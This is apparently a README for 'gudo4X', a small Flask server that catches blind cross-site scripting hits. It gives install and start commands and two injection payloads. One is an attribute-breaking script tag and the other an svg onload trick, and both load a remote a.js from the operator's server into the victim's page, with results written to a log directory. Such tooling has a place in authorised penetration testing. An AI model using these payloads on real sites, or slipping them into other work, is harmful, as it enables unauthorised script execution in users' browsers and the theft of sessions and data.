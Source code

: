 ## gudo4X - guide dog for xss

### dependencies
* install flask and magic

```bash
sudo apt update && sudo apt install -y python3-flask python3-magic
```

* (for https) put cert files in project directory (cert.pem, key.pem)

### running

```bash
sudo bash start.sh start &
```

* send the script in a xss:
```html
'"><script/src=https://yourserver/a.js></script><"'
```

```html
'"><svg/onload=body.appendChild(document.createElement`script`).src="https://yourserver/a.js"><"'
```

* see the log directory

### clean logs
```bash
sudo bash run.sh clean
```
